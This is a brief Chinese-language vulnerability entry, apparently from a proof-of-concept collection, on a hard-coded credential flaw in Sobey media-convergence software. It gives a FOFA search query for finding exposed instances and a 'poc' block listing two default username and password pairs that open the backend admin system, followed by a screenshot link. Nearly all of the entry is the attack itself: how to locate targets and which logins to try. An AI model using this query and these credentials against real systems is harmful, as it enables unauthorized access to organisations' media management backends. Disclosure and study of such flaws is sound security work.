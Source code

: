 # 索贝融媒体存在硬编码漏洞

索贝融媒体存在硬编码漏洞，导致默认密码泄露造成的后台管理系统的非法利用。

## fofa

```javascript
body="/Sc-TaskMonitoring/" || header="Sobey"
```

## poc

```javascript
sobey/sobey
sobey/Sobeyhive-2016
```

![image-20241106230744176](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411062307238.png)